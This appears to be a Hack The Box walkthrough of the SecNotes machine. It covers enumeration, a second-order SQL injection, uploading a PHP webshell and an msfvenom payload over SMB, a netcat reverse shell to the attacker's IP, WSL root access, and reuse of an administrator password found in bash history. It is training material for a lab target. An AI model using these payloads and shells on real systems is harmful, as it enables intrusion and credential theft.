










# SECNOTES
## Info
The link to the machine is [SECNOTES](https://app.hackthebox.com/machines/SecNotes)

[Enumeration](#enumeration)

[Gaining Access](#gaining-access)

[Elevation](#elevation)

[Conclusion](#conclusion)

## Writeup
First and formost, we need to connect to the servers. We can do this with:
```bash
sudo openvpn <path to vpn> 
```
Now that we have our VPN connection, we should reveiw our objective.
> Get the system and user flags

With that being said, lets begin enumeration. 

## Enumeration
Enumeration is super important in real life tests, so to simulate that and enusure we are ready for testing, lets gather all the info we can on what we have. 

First, I ran NMAP to get a basic layout as to what the machine offered. You can use your own scan but since this is CTF rather than a Pentest, we can be really loud if we wish. 
```bash
nmap -A -T4 -Pn -p- 10.129.31.175 
```
### Command Explanation
For those who do not know, -A combines multiple flags into one, defualt scripts (-sC), Operating System detection (-O), Version Detection (-sV) and Traceroute (--traceroute). The -T4 sets the timing template, faster is better and we are at 4/5. -Pn scans everything as if it were alive, bypassing some annoying fails, and -p- scans all 65 thousand ports instead of only the top ones.

This scan revealed some interesting information, check the table below for summerized info or the picture for the full scan.

### Table and Image

| PORT | Service | Version | Notes |
|-|-|-|-|
|80|HTTP|IIS 10| This is a commonly vulnerable type of service plus webpage|
|445|SMB|Windows SMB|This is a super common CTF path, needs enum|
|8808|http|IIS 10|This is an unusual port to be open, plus it also is IIS so maybe this is where we need to be.|

## SMB Vector
Now that we have our initial scan results and know whats out on the system, lets go down our rabbit holes, starting with the SMB vector.

For this we are going to look into SMB first, it should be a quick check. To enumerate shares using SMB you can use a few options, I prefer a tool called SMBClient since it is interactive. 
```bash
smbclient -L \\\\10.129.31.175\\
```
As we can see from our anonymous login attempt, we were denied 


Lets continue though. SMBClient only tests for listed shares, but lets run a tool called enum4linux that tests all sorts of properties such as RPC interfaces.

```bash
enum4linux 10.129.31.175
```
Once again, We were denied


No matter though, my thoughts on this vector at this point mainly consist of the thought that you could run more tools such as lookupsid but, the CTF seems to be straying away from that path, so lets look at the webpages.

### Webpages Vector
As I said before, this vector looks more promising from the scan, so at this point in the test, I do beleive this is the right path. I  decided to use chromium linked up to burpsuite, just becuase I like to have easier setups, especially for spraying attacks with burpsuite.

So, the webpage ports we saw earlier were 80 and 8808, both IIS. Lets check 80 first. 
> http://10.129.31.175:80

This brings us to a login page.

First I am going to run some directory and subdomain enumeration on port 80.

For directory busting I am using gobuster
> gobuster dir -t 350 -u http://10.129.31.175 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js,java,py,rb

and for subdomain enumeration I am using ffuf
> ffuf -u http://10.129.31.175:80 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "HOST: FUZZ.10.129.31.175:80" -fs 0

In terms of FFUF, there were no subdomains, however, in terms of gobuster, there were directories
- contact.php
- home.php
- login.php
- register.php
- logout.php

but all of those directories redirected back to login.php, the landing page.

## Gaining Access
With our information gathered, we can being playing with what we have. I always think it is super important to see first what the site should do because, after all, to be a hacker is to operate outside of that.

### Testing Functionality
To test the intended functionality of the site, I created a new account under the name **John** with a password of **testtest** (minimum of six characters) and by doing so landed on the page *home.php*.


As we can see we have four buttons, one for a new note, one for a password change, one for signing out and one for contacting. 
Interestingly we also have a note in the top of the screen letting us know that there is another user **tyler** with the email **tyler@secnotes.htb** that we can contact. 
That being said, lets contact our new best freind tyler. Clicking into the contact button, we land on a new page *contact.php*

Since we cannot attack the contact portal, lets check the change password portal. When we click on the button, we land on the page *change_pass.php*.

Although we can change our own password and it seems insecure since we do not need a username or a previous password to do so, this vector does not seem like the easiest one possible, so my thoughts are mainly that I want to test other things before I need to come back here. 

At this point, we have concluded our test of the sites intended functionality, so lets move on to trying to break it.

### Breaking the site
Right now, we cannot try any payloads throughout the entire site, so lets go back to basics and try to break the login page. The login page itself does not have the ability to be injected into since it hard checks if an account exists first, but if we create an account with the same name as an injection attack, that check would be allowed in since it techinically is an account, thus allowing an injection to actually be tested.
With that being said I created an account with all feild set to: 
> 'OR 1 OR'

Which is a simple SQL injection I like to use. When I tried to log in, it seemed to work. 


When looking through notes, we can see there is a note called **New Site** which has SMB credentials and a link to where to go inside it!

### SMB Vector (With new info)
Even though we previously tested the SMB vector for just about anything, this just proves that we just did not have the neccesary info at the time so just remember as a penetration tester, do not be afraid to go back once you get new information.

As I said earlier, I prefer enumerating SMB with SMBclient so the command I used here was:
>smbclient \\\\10.129.31.175\\new-site -U tyler

and on prompt I put in the password, succeeding in entering the share.


Upon listing out the share, we find two files
- iisstart.htm
- iisstart.png 

which we can download with:
> get iisstart.htm

> get iisstart.png

When inspecting the files, we can quickly deduce that these files are actually the framework of an IIS site. Remember the other http port 8808? Well it just might be connected to this share. Lets check that theory. 

Lets first create a test file with:
> echo "This site is vulnerable" > vuln.txt

and then uploading to the share with
> put vuln.txt

then if we go to the site again located at *http://10.129.31.175:8808/vuln.txt* we can see that indeed, our file exists and is present on the server. 


now that we have confirmation we can put things on the server, lets create malware, YIPEE!!! To do this we can use msfvenom, a common payload generation tool. 

### Explanation
As you can see the command below is somewhat complex. the -p sets the payload type we want to use. In this case we are using windows our target operating system, meterpreter as our cradle which essentially is just interacting with an advanced shell handler, think meterpreter is google docs compared to notepad: its just more functional. The Reverse_TCP is a type of connection we are doing. Basically we give the target the shell and the target opens a tcp socket (think of it like a phone call to us with tcp being the phone carrier, in this case it's a very good one, maybe ATNT?) if we are available (thats our handler) we accept and then we can execute commands. This is better for us since if we just open the tcp socket then the target can just "hang up" but if they send it they cannot just decline. Importantly, there is also an architecture flag such as windows/x64/ and so on, but in this case I chose not to specify since the nmap scan said x64 and that is defualt. The LHOST was my IP and LPORT was the port I was waiting for the socket connnection on. the -f is the file format and -o is what I want to call it. Sorry for the long winded explaination, but I hope that helped.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=443 -f exe -o IISShell.exe

now that we have our shell, lets put it on the server with:
> put IISShell.exe

and finally, lets load up meterpreter and lauch our handler with:
> use exploit/multi/handler 

and set LHOST to our IP address and set LPORT to the same port as our shell in this case 443 and run it with a short command: 
> run

told you it was short. Next lets query this in the webpage again at *http://10.129.31.175:8808/IISStart.exe*

Issue though. When we try to query the shell it fails to execute, so lets pivot to a webshell instead.
a basic webshell can be writen in PHP as such:
```PHP
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
And as you can see, if we query the ?cmd= after the link we can request some commands. So popping that code into a file and uploading it in the same way as before leads to us to get command execution albeit badly. 

so, lets get a real shell going! First lets upload netcat to the server with the SMBclient connection with:
> put nc.exe

and then:
> nc.exe -e cmd.exe 10.10.14.61 443

allowing us to get a connection. 


## Elevation

Now, it is time to elevate our privledges.
After looking through our privledges we can see that we have a lot enables, but nothing we really can abuse such as Imperonate. 

Notably though, if we look for WSL with:
> Where /R c:\ wsl

we can notice that it exists. WSL is notoriously vulnerable because it has mismatched permissions being that even though both sides of Windows and Linux have access to the filesystem, WSL may have admin where Windows may not and so on, meaning that maybe, just maybe we might be able to elevate through this. 

Why don't we test this? By just quoting back the path of wsl we can enter the terminal, and if we do a quick
> whoami

We notice that we are now root, so yeah, that classic vulnerability exists on this machine.


With us now being Root, the equivlent of System, lets see what we can get. 

Typically, the flags of a linux system are put in the root directory so if we head there at 
>/root

and list all files with:
> ls -la 

we can see that there are a couple of files. 
After reading through the first one we see that **.bash_history** holds the line 
```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```
which to me, seems like a perfect thing to just run by.
After running the command, we seem to get access to the entire filesystem. 


Now lets get those files!
The first one is at:
> \Users\tyler\Desktop\user.txt

and the second: 
> \User\Administrator\Desktop\root.txt

and with a quick 
> get

we can copy both files onto our filesystem.


and with a quick cat we can see our flags!


## Conclusion
Thank you so much for reading through my walkthough of SecNotes! 
I had a lot of fun making this, and hope you got a lot out of this. 
If you have any further questions or concerns, just write me a message and I will respond! be ready for more writeups in the future.